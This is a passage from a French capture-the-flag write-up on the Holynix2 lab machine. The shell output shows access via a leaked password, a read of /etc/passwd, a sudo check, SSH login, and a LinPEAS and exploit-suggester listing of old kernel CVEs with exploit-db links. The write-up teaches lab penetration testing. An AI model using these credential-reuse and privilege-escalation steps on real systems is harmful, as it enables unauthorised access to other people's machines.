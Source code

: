 ```shellsession
Your new password is your first and last name, all lower case, followed by 2ba9<br /><br />
You should change it when you log in.<br /><br />


--0016364edc1c5c38940496b56067--
www-data@holynix2:/home$ grep mckinley /etc/passwd
amckinley:x:1004:100:Agustin Mckinley:/home/amckinley:/bin/bash
www-data@holynix2:/home$ su amckinley
Password: 
amckinley@holynix2:/home$ id
uid=1004(amckinley) gid=100(users) groups=100(users)
amckinley@holynix2:/home$ sudo -l
User amckinley may run the following commands on this host:
    (root) NOPASSWD: /bin/false
```

Sûr que l'on ne va pas aller loin en exécutant `/bin/false`...

On peut utiliser l'identifiant pour un accès direct à SSH. Comme c'est un vieux système il faut rajouter une option à SSH :

```bash
ssh amckinley@192.168.1.88 -oHostKeyAlgorithms=+ssh-rsa
```

## Fulguropoings

J'ai uploadé et exécuté `LinPEAS` qui a trouvé quelques binaires setuid à l'ancienne comme `pt_chown` :

`-rwsr-xr-x 1 root root 9.4K 2010-10-21 20:33 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)`

Le script inclus aussi `exploit-suggester` qui trouve *quelques* vulnérabilités old-school :

```shellsession
  [1] american-sign-language
      CVE-2010-4347
      Source: http://www.securityfocus.com/bid/45408
  [2] can_bcm
      CVE-2010-2959
      Source: http://www.exploit-db.com/exploits/14814
  [3] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [4] do_pages_move
      Alt: sieve       CVE-2010-0415
      Source: Spenders Enlightenment
  [5] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [6] ftrex
      CVE-2008-4210
      Source: http://www.exploit-db.com/exploits/6851
  [7] half_nelson1
      Alt: econet       CVE-2010-3848
      Source: http://www.exploit-db.com/exploits/17787
  [8] half_nelson2
      Alt: econet       CVE-2010-3850
      Source: http://www.exploit-db.com/exploits/17787
  [9] half_nelson3
      Alt: econet       CVE-2010-4073
      Source: http://www.exploit-db.com/exploits/17787
  [10] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
```